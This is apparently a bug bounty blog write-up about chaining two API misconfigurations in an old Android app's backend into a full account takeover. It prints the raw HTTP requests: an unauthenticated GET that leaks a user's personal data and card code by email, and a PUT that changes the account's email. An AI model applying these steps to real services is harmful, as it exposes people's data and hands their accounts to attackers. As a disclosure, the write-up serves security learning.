 ﻿---
description: Critical Bugs
title: API Misconfiguration lead to Full ATO
date: 2024-09-02 08:00:00 -0600                           # Change the date to match completion date
categories: [WebHacking]                   # Change Templates to Writeup
tags: [bugbounty; redacted; hacking; critical]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image:                # Add infocard image here for post preview image
---

# API Misconfiguration lead to Full ATO

Hey ! Today I’m going to share with you an amazing found I made on a big company chaining multiple bugs and misconfigurations on their API :)

## Let's go !

![enter image description here](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExMGgxdmJpdTBiMHlxbnFtcW1pbzF1ajVwNWx2dWUzbGtyOGhqaDVrciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/CjmvTCZf2U3p09Cn0h/giphy.gif)

First of all, when I recon a target, I like looking for lost apks on obscure websites on the internet

So I went to my favorite apk websites :  [https://apkcombo.com](https://apkcombo.com),  [https://apkmonk.com](https://apkmonk.com)  and  [https://apkpure.com](https://apkpure.com)

![enter image description here](https://apkpure.net/static/imgs/website_screen_v1.jpg)


After some research, I found an interesting APK :  myapp.redacted last updated on 2016

So I downloaded the APK, launched Nox and BurpSuite and started hacking

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExbW5qdGg4cG9hcGxubWc2dDdsMGdsaWlmbmF5ZTNsOHRmcWFkcnp0ciZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/YQitE4YNQNahy/giphy.gif)

## Browsing the APK

I browsed through the APK for about ten minutes and it literally seemed broken. It used the api “[http://appli.redacted.com](http://appli.redacted.com)”

Using BurpSuite Mapping, I found a very interesting endpoint: /fr/v2.0/Clients/%2520/ 👀👀

And after a few tries, I understood that I had to add the user’s email, so I made the request :

    GET /fr/v2.0/Clients/%2520/victim@gmail.com HTTP/1.1 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 595 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264945","lat":0,"long":0,"nom":"Sakayanagi","pays":"FR","code_postal":"86100","prenom":"Arisu","email":"victim@gmail.com","newsletter":1,"date_creation":"2023-11-20T17:22:20","mobile":"0689123912","statut":true,"type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"0000001525","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46C61A4B-D390-5BBD-8C20-BF2702327716","token":"254EF7C844BF25B845D7B1D49DD22753407AC6D989028B589931935FC2D352CB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

**FIRST BUG : PII Leakage via API Misconfiguration**

![enter image description here](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOHdneHJzZHprZWZxaXdsaXo0OTNjODczdXh6ZW01cWxjcmxmcWpvMyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kdQuvu0LtCEjxYgTcS/giphy.gif)

## No done yet... !

So from that moment I decided to go down the rabbit hole to find other vulnerabilities

And after some research I found another endpoint that used a PUT method :

    PUT /fr/v2.0/Clients/8000040264945 HTTP/1.1 
    Content-Type: application/x-www-form-urlencoded 
    Content-Length: 401 
    Host: appli.redacted.com 
    Connection: close 
    Accept-Encoding: gzip, deflate 
    User-Agent: okhttp/3.12.1 
    
    type=1&email=victim@gmail.com&device=e91480e2a8eb83af&android=1&nom=&prenom=&cp=86100&mobile=&pays=&token=dZJKFETVSRWwzz4olPqvF0%3AAPA91bEZA4Mvt5AttKlMRzfQ70nT-Hv7BHBlwix8WI9taP91n-_XEnMHnegOVQfNn0No6XDEuvPn_-rP7MufTLLta3ZilKYVjP0-rp9X_krK0yTLTgbasPYSP5s9kQKkG_PCntlQmkma&code_identite=&mag_prefere=0000001525&newsletter=1&alerte_mag=1&alerte_cata=1&alerte_promo=1&lat=&long=

This request was logged when I tried to modify my VIP card details on the APK (8000040264945)

BUTTT, and this is the whole point of this chaining, I could obtain the VIP card code of any user from their email with the previous request. I think you understand where I’m going with this… 😈

I quickly created another account on the platform, I retrieved my VIP code with the first request then in the second request I replaced my email address with  [attacker@gmail.com](mailto:attacker@gmail.com)

And I got the following response :

    HTTP/1.1 200 OK 
    Server: Apache 
    X-Powered-By: PHP/5.4.45-0+deb7u14 
    Cache-Control: no-cache, must-revalidate 
    Expires: Mon, 26 Jul 1997 05:00:00 GMT 
    Content-Length: 582 
    Connection: close 
    Content-Type: application/json 
    
    [{"code":"8000040264956","lat":0,"long":0,"nom":"DUJARDIN","pays":"FR","code_postal":"75002","prenom":"Victim","email":"attacker@gmail.com","newsletter":1,"date_creation":"2023-12-10T10:26:27","mobile":"+33655421789","statut":"actif","type":"1","secteur":"","raison_sociale":"","code_ape":"","mag_prefere":"","code_identite":"","kbis":"","date_kbis":"","devices":[{"uuid":"46B61A3B-D390-4CCD-8C20-BF2701317816","token":"254EF7C844BF78B845D7B1D09DD22753407AC6D459028B578731935FC2D352BB","actif":"1","alerte_promo":"1","alerte_cata":"1","alerte_mag":"1","tracking_id":"","android":"0"}]}]

![enter image description here](https://media2.giphy.com/media/v1.Y2lkPTc5MGI3NjExdDI2ZXQ0ZGM5eWRpOWJnaWxtcThmajI0ZWh1cGRpdm5nOHpmN3F3OCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYtVHSxngR3lC/giphy.gif)


## Achieve Full 0-click ATO

After that, I created an account on the platform with  [attacker@gmail.com](mailto:attacker@gmail.com), I checked my email and when I connected I came across my previous account (the one I replaced email with the PUT request) !! 🎉🎉

And that’s the end of the story on how my extroardinary chaining allowed me to achieve an account takeover.

## Tips

1 - Always look for APKs belong to the company
2 - Privilegate old/lost APKs
